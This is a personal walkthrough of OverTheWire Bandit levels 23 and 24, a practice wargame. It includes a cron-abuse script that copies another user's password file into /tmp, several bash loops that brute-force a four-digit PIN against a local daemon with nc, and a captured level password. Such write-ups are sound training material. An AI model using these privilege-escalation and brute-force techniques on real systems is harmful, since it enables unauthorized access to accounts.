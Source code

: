 * Based on the script that is being run by cron, we just need to write a script that gets the name of bandit24's password for us. This script executes every script in `/var/spool/bandit24/foo/` if it is owned by bandit23 then deletes it. However, the script will be ran as bandit24 since it is that user's cronjob. Therefore, I can get the contents of `/etc/bandit_pass` from a script in `/var/spool/bandit24/foo/`.
* I am having an issue getting output from the script presumably due to permissions. I modified the target directory with `chmod 777`. 
```bash
#!/bin/bash
cat /etc/bandit_pass/bandit24 >> /tmp/sm2/out.txt
```
This did the trick:
`gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8`
* Success!
## Level 24
>A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.
You do not need to create new connections each time

* This is the script I've formulated:
```bash
#!/bin/sh

code=0
while [ $code -le 9998 ];
do
        code=$((code+1))
        pass="gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 ${code}"

        echo "Trying code $pass"
        echo $pass | nc localhost 30002 -w 1 | tee -a out.txt
done
```
* But it is very slow, there must be a faster way.
* Firstly, it starts at 0 because it just increments it doesn't handle every digit independently. 
```bash
#!/bin/bash

for i in {0000..9999}
do
  pass="gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 ${i}"
  echo "Trying code $pass"
  echo $pass | nc localhost 30002 -w 1 | tee -a out.txt
done
```
* This is better! Didn't know bash supported iterating over ranges this way. Now looking into improving speed. Could utilize parallelization in some way. I could:
	* Throw the jobs into the background with a max number running any time
	* Utilize `parallel`
```bash
#!/bin/bash

export pass_prefix="gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 "

generate_and_try() {
  i=$1
  pass="${pass_prefix}${i}"
  echo "Trying code $pass"
  echo $pass | nc localhost 30002 -w 1 | tee -a out.txt
}

export -f generate_and_try
export pass_prefix
```
